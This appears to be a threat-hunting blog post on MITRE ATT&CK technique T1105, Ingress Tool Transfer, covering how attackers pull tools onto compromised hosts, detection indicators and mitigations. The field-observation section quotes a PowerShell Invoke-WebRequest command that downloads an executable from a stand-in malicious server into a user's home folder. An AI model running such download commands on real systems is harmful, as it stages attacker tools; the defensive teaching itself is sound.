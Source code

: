 ```yaml
---
title: "T1105 - Ingress Tool Transfer"
date: 2024-10-27T10:16:12+01:00
draft: false
---
```


| Revised Date | Comment |
| ------------ | ------- |
| 27.10.2024   | Added page |

## Introduction

**The Ingress Tool Transfer technique involves adversaries transferring files such as malware, scripts, or utilities from an external source to a compromised system. After the initial compromise, attackers may need additional tools to escalate privileges, establish persistence, or move laterally across the network. They use network protocols like HTTP, HTTPS, FTP, or SMB to download these tools.**

**Adversaries typically download their malicious payloads from command and control (C2) servers or compromised websites. The tools may be stored in remote locations such as cloud services or attacker-controlled servers. This method allows attackers to minimize the size and complexity of their initial payload, instead fetching additional tools as needed during the attack.**

---

## A note on ingress and egress

Before we dive into T1105, lets pause for a moment for a refresher on the terms ingress and egress:

| **Term**   | **Definition** | **Traffic Direction** | **Examples** | **Security Considerations** |
| ---------- | -------------- | --------------------- | ------------ | --------------------------- |
| **Ingress** | Traffic entering a network or system from external sources | Incoming (external → internal) | Web requests, Email traffic, File downloads | Ingress filtering to prevent unauthorized or malicious traffic from entering |
| **Egress**  | Traffic leaving a network or system to external destinations | Outgoing (internal → external)| Web requests, Data uploads, Emails to external addresses | Egress filtering to prevent data exfiltration or malicious traffic from spreading |

## How It Works

Once attackers gain access to a system, they need further tools to achieve their objectives, which often include stealing data, maintaining persistence, or performing lateral movement. These tools could be transferred into the victim's environment using methods like:

| Method | Example / Description |
| ------ | --------------------- |
| PowerShell commands | E.g., `Invoke-WebRequest` or `curl`) to download files. |
| Remote transfers | Via FTP, SMB, or HTTP/S from an external server to the compromised machine. | 
| File downloads |  Initiated by malware as part of a broader infection chain. | 

## Field Observations

In a scenario I was hunting for, I discovered an adversary using PowerShell to download several malicious tools from an external server. In all essence, the adversary used variants of this command to get their software suite in place: 

```powershell
Invoke-WebRequest "http://malicious-server.com/<toolname>.exe" -OutFile "C:\Users\<UsernameHere>\<toolname>.exe"
```

There were a few things that triggered my senses when I found these, those things were:

* Who uses Powershell and Invoke-WebRequest to download things?
* Why would someone download executables using this method? 
* Why did they place the executables in the root of the user home directory? 

A regular user has no use for using Powershell to download files to begin with. Besides, a user would normally download executables using a web-browser - and if they do so, the software would most likely end up in the "Downloads" folder. Clearly, I had something situation in my hands here.

## Detection

Detecting **Ingress Tool Transfer** requires monitoring both network activity and system behavior. Here are some key indicators to monitor:

### File System Changes

- Unusual file creation, especially in uncommon directories (e.g., `C:\Users\<username>\AppData\Local\Temp\`).
- Executable files or scripts being written to disk from external sources. Pay attention to where and ask yourself if it is normal to place it there.

### Command Execution

- PowerShell or Bash commands that download files using utilities like `Invoke-WebRequest`, `curl`, or `wget`.
- Pay attention to where such commands may download to. 

### Network Traffic

- Outbound network traffic to suspicious IP addresses or domains that are not typical for the organization’s environment.
- Large or unusual file transfers, especially over unmonitored or rarely used protocols like FTP.

### Anomalous Activity

- Suspicious or abnormal behavior by trusted applications or processes (e.g., browsers or system management tools downloading unexpected files).

## Mitigations

### Network Segmentation

- Restrict outbound traffic and limit access to external resources, especially on critical systems.

### Web Filtering

- Use DNS filtering or web proxies to block access to known malicious domains or IP addresses.

### Endpoint Protections

- Deploy endpoint detection and response (EDR) solutions that can flag anomalous file transfers or unauthorized download attempts.
- Implement application allow-listing solutions like AppLocker to prevent unauthorized applications from executing.

### Traffic Inspection

- Monitor and log HTTP/HTTPS and other file transfer protocols to identify and block suspicious downloads.

## MITRE ATT&CK Detection Category

This technique is categorized under the **Command and Control (TA0011)** tactic. It involves transferring tools into the compromised system for continued operations.

## References

- MITRE ATT&CK T1105: [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)


